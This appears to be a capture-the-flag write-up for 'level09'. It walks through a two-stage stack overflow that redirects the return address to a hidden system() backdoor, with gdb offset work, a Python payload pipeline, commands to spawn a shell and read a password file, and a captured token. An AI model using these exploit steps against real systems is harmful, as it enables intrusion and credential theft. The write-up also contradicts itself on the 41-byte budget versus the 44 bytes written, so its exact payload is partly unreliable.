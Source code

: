 # level09

1. Overview

* Two-step **stack overflow** leading to a clean ret2win into a hidden backdoor.
* `set_username()` can overwrite fields **past** a 140-byte buffer, including the message length used by `set_msg()`.
* `set_msg()` then copies attacker-controlled bytes into the same buffer using that (now attacker-chosen) length, letting us overwrite the **return address**.
* Target function to jump to: `secret_backdoor()`, which runs `system()` on a line read from stdin.

```c
void secret_backdoor(void) {
    char buf[128];
    fgets(buf, 0x80, stdin);
    system(buf);
}
```

2. What the code does (short)

* `handle_msg()` allocates a 140-byte buffer on the stack plus several locals. It sets `msg_len = 0x8c` (140).
* `set_username(buf)` reads up to 0x80 bytes, then copies **up to 0x29 (41) bytes** into **`buf + 0x8c`**. That writes **beyond** the 140-byte buffer into the adjacent locals.
* `set_msg(buf)` reads a message and does `strncpy(buf, msg, *(int *)(buf + 0xb4))`. The length at `buf + 0xb4` is exactly the `msg_len` field we can modify via `set_username()`.
* Overflow with `set_msg()` to smash the return address and point it at `secret_backdoor`.

3. Key offsets (typical x86-64 build)

* `buf`           at offset 0
* `msg_len`       at **offset 180** (`buf + 0xb4`) ← we want to set this high (e.g., 500)
* saved return    around **offset ~200** (varies slightly by build; 200 works in the reference)
* Distance from `buf + 0x8c` (where `set_username` writes) to `msg_len` is **40 bytes** → within the 41-byte copy budget

4. Find `secret_backdoor` address

```gdb
(gdb) b main
(gdb) run
(gdb) p secret_backdoor
$1 = (void (*)(void)) 0x55555555488c   # example
```

Use your own address if it differs.

4.5. Find the exact offset to the return address

```gdb
(gdb) b *handle_msg+100     # breakpoint after set_msg
(gdb) run
# Enter username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf4\x01\x00\x00
# Enter message:  BBBB... (beaucoup de B)
(gdb) p $rsp
$2 = (void *) 0x7fffffffe510      # start of buffer

(gdb) p $rbp + 8
$3 = (void *) 0x7fffffffe5d8      # return address

# Calcul de l'offset :
(gdb) p/d (long)($rbp + 8) - (long)$rsp
$4 = 200                           # Offset = 200 bytes
```

The return address is always at **RBP + 8** on x86-64. Calculate the offset by subtracting $rsp (buffer start) from $rbp + 8.

5. Exploit plan

* **Stage 1 (username):** set `msg_len` to a large value (e.g., `500`). We do this by writing 40 padding bytes, then the little-endian integer `0x000001f4` at `buf+0xb4`.
* **Stage 2 (message):** send `B * <offset_to_RET>` followed by the **little-endian** 8-byte address of `secret_backdoor`.
* Keep stdin open so `secret_backdoor()` can read and execute your command.

6. Commands (single pipeline)

```bash
# Example with secret_backdoor = 0x000055555555488c
(
  python -c "print('A'*40 + '\xf4\x01\x00\x00')";              # Stage 1: msg_len = 500
  python -c "print('\x90'*200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')";  # Stage 2: smash RET
  cat                                                     # keep stdin open for backdoor
) | ./level09
```

Then type a command for the backdoor, e.g.:

```bash
/bin/sh
# or directly:
cat /home/users/end/.pass
```

7. Why this works

* `set_username` lets you write **41 bytes** starting at `buf + 0x8c`. Writing 40 bytes of padding plus a 4‑byte integer lands exactly on `msg_len` at `buf + 0xb4`.
* `set_msg` trusts `msg_len` and overflows the 140‑byte buffer with up to `msg_len` bytes, smashing the saved return.
* On function return, control transfers to `secret_backdoor`, which immediately calls `system()` on input you provide.

8. Token

Token found `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`
